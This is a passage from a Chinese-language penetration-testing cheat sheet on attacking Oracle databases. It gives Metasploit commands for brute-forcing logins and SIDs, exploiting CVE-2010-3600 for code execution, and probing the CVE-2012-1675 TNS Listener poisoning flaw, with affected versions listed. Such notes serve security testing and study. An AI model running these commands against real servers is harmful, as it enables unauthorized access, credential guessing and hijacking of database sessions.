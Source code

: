 **MSF 爆破**
```bash
use admin/oracle/oracle_login
set RHOSTS [IP]
set SID [SID]
run
```

**CVE-2010-3600 Oracle Enterprise Manager Grid Control JSP 代码执行漏洞**
- 简介

    Oracle Database Server 11.1.0.7 和 11.2.0.1 版本，以及 Enterprise Manager Grid Control 10.2.0.5 版本的 Client System Analyzer 组件中存在未明漏洞。远程攻击者可借助未知向量影响机密性、完整性和可用性。

- 影响版本
    - Oracle:Enterprise_manager_grid_control:10.2.0.5:::
    - Oracle:Database_server:11.1.0.7:::
    - Oracle:Database_server:11.2.0.1:::

- MSF 模块
    ```bash
    use exploit/windows/oracle/client_system_analyzer_upload
    ```

**CVE-2012-1675 Oracle TNS Listener Remote Poisoning**
- 简介

    Oracle Database Server 在实现上存在可允许攻击者向远程“TNS Listener”组件处理的数据投毒的漏洞。攻击者可利用此漏洞将数据库服务器的合法“TNS Listener”组件中的数据转向到攻击者控制的系统，导致控制远程组件的数据库实例，造成组件和合法数据库之间的攻击者攻击、会话劫持或拒绝服务攻击。

- 影响版本
    - Oracle:Database_server:11.2.0.4:::
    - Oracle:Database_server:11.2.0.3:::
    - Oracle:Database_server:11.2.0.2:::
    - Oracle:Database_server:11.1.0.7:::
    - Oracle:Database_server:10.2.0.5:::

- 相关文章
    - [Oracle TNS Listener Remote Poisoning](http://www.cnblogs.com/zhuxr/p/9618512.html)
    - [ORACLE TNS Listener远程注册投毒（Poison Attack）漏洞](https://blog.csdn.net/wengtf/article/details/46632405)

- MSF 模块
    ```bash
    use auxiliary/admin/oracle/tnscmd       # 该漏洞可以远程获取到 oracle 的内存信息,若是能获取到内存中的数据即为存在漏洞.
    set rhosts [ip]
    run

    use auxiliary/admin/oracle/sid_brute    # 爆破 oracle 的 SID
    set rhosts [ip]
    run
    ```

---

## OrientDB
